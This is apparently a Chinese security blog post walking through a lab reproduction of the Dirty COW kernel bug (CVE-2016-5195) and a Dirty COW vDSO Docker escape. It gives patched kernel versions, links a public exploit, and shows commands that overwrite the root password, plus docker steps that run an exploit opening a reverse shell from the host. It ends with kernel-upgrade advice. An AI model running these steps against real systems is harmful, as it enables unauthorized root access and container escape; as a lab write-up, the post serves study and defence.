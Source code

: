 ```yaml
---
title: 脏牛提权与docker逃逸
tags:
  - 复现
  - 安全
categories:
  - 复现
copyright: true
permalink: 脏牛提权与docker逃逸
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-12-02 21:09:05
---
```


脏牛的影响范围很大，几乎涵盖了主流的Linux发行版。
<!--more-->



### 漏洞介绍
CVE-2016-5195
内存竞争导致能提权


### 影响版本
脏牛的影响范围很大，几乎涵盖了主流的Linux发行版。要判断系统是否受影响，有两个办法。

方法1：直接检查内核版本。

最简单的办法就是检查内核版本，看看内核是不是打过补丁的版本。Debian运行命令uname -v，Ubuntu/Centos/RHEL运行命令uname -r，不同发行版输出值不一样，以Debian 8为例，最新的安全内核输出如下：
```
~ uname -v
uname -v
#1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19)
```
以下是主流发行版修复之后的内核版本，如果你的内核版本低于列表里的版本，表示还存在脏牛漏洞
```
Centos7 /RHEL7    3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10         4.8.0-26.28
Ubuntu 16.04         4.4.0-45.66
Ubuntu 14.04         3.13.0-100.147
Debian 8                3.16.36-1+deb8u2
Debian 7                3.2.82-1
```
### 环境搭建

本地虚拟机的ubuntu环境内核版本比较高，尝试使用exp提权失败，然后去下载低版本内核的ubuntu的服务器，http://old-releases.ubuntu.com/releases/14.04.3/ubuntu-14.04.1-server-amd64.iso，然后在本地搭建服务

### 漏洞复现

下载exp
https://github.com/gbonacini/CVE-2016-5195
./dcow

havaFun
如果能用直接提权，root用户更改密码

适用版本
```
The program was successfully used with:

- RHEL7 Linux  x86_64;
- RHEL4 (4.4.7-16, with "legacy" version) 
- Debian 7 ("wheezy");
- Ubuntu 14.04.1 LTS  
- Ubuntu 14.04.5 LTS
- Ubuntu 16.04.1 LTS
- Ubuntu 16.10
- Linux Mint 17.2

and compiled with: 

- clang version 4.0.0;
- gcc version 6.2.0 20161005 (Ubuntu 6.2.0-5ubuntu12) 
- gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.1) 
- gcc version 4.8.5 20150623 (Red Hat 4.8.5-4) (GCC);
- gcc version 4.8.4 (Ubuntu 4.8.4);
- gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1)
- gcc version 4.7.2 (Debian 4.7.2-5);
- gcc version 4.4.7 (with "legacy" version) 
```
### 测试环境
ubuntu16 4.8.0-22
拥有user用户，能执行./dcow
执行之后更改了root用户的口零，dirtyCowFun
直接用口令登录root用户

### 修复建议

升级内核




## 利用脏牛docker 逃逸 



我认为利用的条件比较苛刻。

我们要了解Docker逃逸漏洞是如何被利用的，就首先要知道VDSO。

在Linux中，有一个功能：VDSO(virtual dvnamic shared object),这是一个小型共享库，能将内核自动映射到所有用户程序的地址空间。

什么是VDSO呢？

### VDSO

它是一个优化性能的功能。

我们举个例子：gettimeofday是一个获取当前时间的函数，它经常被用户的程序调用，如果一个程序需要知道当前的时间，程序就会频繁的轮询。为了减少资源开销，内核需要把它放在一个所有进程都能访问的内存位置，然后通过VDSO定义一个功能来共享这个对象，让进程来访问此信息。

通过这种方式，调用的时间和资源花销就大大的降低了，速度也就变得更快。

那么如何利用VDSO来实现Docker逃逸的？

首先POC利用Dirty Cow漏洞，将Payload写到VDSO中的一些闲置内存中，并改变函数的执行顺序，使得在执行正常函数之前调用这个Shellcode。

Shellcode初始化时会检测是否被root所调用，如果调用，则继续执行，如果没有调用则返回，并执行clock_gettime函数，接下来它会检测/tmp/.X文件的存在，如果存在，则这时已经是root权限了，然后它会打开一个反向的TCP链接，为Shellcode中填写的ip返回一个Shell。

漏洞就这样产生了。

首先宿主机的内核版本符合脏牛利用的漏洞
下载docker镜像，已经包含了exp的文件
```
docker search dirtycow
下载the13的镜像，里面包含了exp
```
运行docker镜像

```
修改tag
sudo docker tag the13/dirtycow-docker-vdso dirtycow
运行镜像到容器
sudo docker run --name=test p 1234:1234 -itd dirtycow /bin/bash
```
进入容器执行exp
```
sudo docker exec -it test /bin/bash
cd /directory
make # 编译
ifconfig # 查看IP地址
./0x 127.0.0.1:1234 # 逃逸
```

![20201202095327](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201202095327.png)

exp执行失败
![20201202095356](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201202095356.png)


注意：
我试了好多次，利用是否成功要看运气。利用成功之后之后就不能再次执行exp了。要找到宿主机的ip，exp攻击地址默认是127.0.0.1:1234。
注意，这里并不是每次都能成功的，失败之后vdso_patch数组也会被填充，payload的内存地址数据不 为0，无法再次复现。失败输出：


成功的例子：
执行命令，查看当前用，创建文件，查找flag



### 参考连接
https://www.ichunqiu.com/experiment/detail?id=100297&source=2
https://www.cnblogs.com/xiaozi/p/13374514.html
https://www.freebuf.com/articles/container/242763.html
https://xz.aliyun.com/t/6167